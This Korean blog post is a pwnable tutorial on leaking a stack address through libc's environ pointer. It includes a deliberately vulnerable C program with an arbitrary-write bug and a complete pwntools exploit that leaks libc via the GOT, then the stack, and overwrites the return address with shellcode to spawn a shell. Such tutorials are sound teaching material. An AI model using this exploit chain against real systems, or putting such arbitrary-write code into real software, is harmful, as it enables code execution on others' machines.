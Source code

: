```yaml
---
tistoryBlogName: k0n9
tistoryTitle: __environ을 이용한 스택 주소 leak
tistoryVisibility: "3"
tistoryCategory: "1136867"
tistorySkipModal: true
tistoryPostId: "40"
tistoryPostUrl: https://k0n9.tistory.com/40
---
```

stack address leak

libc_base를 알고있을 때 stack_address 를 알아낼 수 있는 기법이다.

라이브러리에서는 프로그램의 환경 변수를 참조해야 할 일이 있다. 이를 위해 libc.so.6에는 environ 포인터가 존재하고, 이는 프로그램의 환경 변수를 가리키고 있다. environ 포인터는 로더의 초기화 함수에 의해 초기화된다.

environ 변수의 오프셋 구하는 법

```c
objdump -D /lib/x86_64-linux-gnu/libc.so.6 | grep "environ"
```

![](https://i.imgur.com/Mcha9xL.png)

![](https://i.imgur.com/BgUqG3C.png)

environ에 stack 주소가 있는 것을 알 수 있다.

## 예제

```c
//gcc -zexecstack -no-pie -o enp enp.c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
long int buf_ptr = 0;
int main()
{
	char buf[1025];
	memset(buf, 0 ,1025);
	read(0, buf, 1024);
	buf_ptr = &buf; 
	long int overwrite_addr;
	long int value;
	
	for(int i=0; i < 10; i++) {
		printf("buf: %s", buf_ptr);
		fflush(stdout);
		printf("Addr: ");
		fflush(stdout);
        
		scanf("%lu", &overwrite_addr);
		printf("Value: ");
		fflush(stdout);
		scanf("%lu", &value);
		
		*(long int *)overwrite_addr = value;
	}
	
	return 0;
}
```

checksec
![](https://i.imgur.com/LO3Hi5n.png)


이 예제는 buf에 1024 바이트 만큼 입력받고 buf_ptr 에 buf 주소를 전달한다. 이후 루프를 돌면서 buf_ptr 주소의 값을 참조하여 출력하고 임의 주소 쓰기 취약점이 존재한다. 또한 NX bit 보호기법이 적용되어 있지 않다.

해당 예제는 임의 주소 쓰기 취약점을 이용해 buf_ptr 전역 변수를 덮어 원하는 위치에 있는 주소를 알아낼 수 있다. 이때 스택의 주소를 알아내기 위해서 사용할 수 있는 것이 libc.so.6라이브러리에 있는 environ 변수이다.

익스 순서

1. buf를 입력받을 때 셸코드를 입력한다.
2. 임의 주소 쓰기 취약점을 이용해 buf_ptr 를 특정 함수의 GOT로 덮어 라이브러리 주소를 구한다.
3. 다시 임의 주소 쓰기 취약점을 이용해 environ 주소를 buf_ptr에 덮어 stack address도 leak한다.
4. 스택주소를 구한 후 임의주소 쓰기로 ret을 shellcode로 overwrite한다.

```python
from pwn import *

# context.log_level = 'debug'

context(arch = "amd64", os='linux')

p = process("./enp")

shell = asm(shellcraft.sh())
read_got = 0x404030
buf_ptr = 0x0000000000404068
read_off = 0x114980
environ_off = 0x000000000221200
buf_rbp_off = 0x128

pause()

p.send(shell)

p.sendlineafter(b"Addr: ", str(buf_ptr))
p.sendlineafter(b"Value: ", str(read_got))

p.recvuntil(b"buf: ")
read_add = u64(p.recv(6)+b"\\x00\\x00")
libc = read_add - read_off
environ = libc + environ_off

p.sendlineafter(b"Addr: ", str(buf_ptr))
p.sendlineafter(b"Value: ", str(environ))

p.recvuntil(b"buf: ")
environ_add = u64(p.recv(6)+b"\\x00\\x00")
buf_add = environ_add - buf_rbp_off - 0x410
ret_add = buf_add + 0x418

for i in range(8):
    p.sendlineafter(b"Addr: ", str(ret_add))
    p.sendlineafter(b"Value: ", str(buf_add))

p.interactive()
```
![](https://i.imgur.com/AUyqyKb.png)
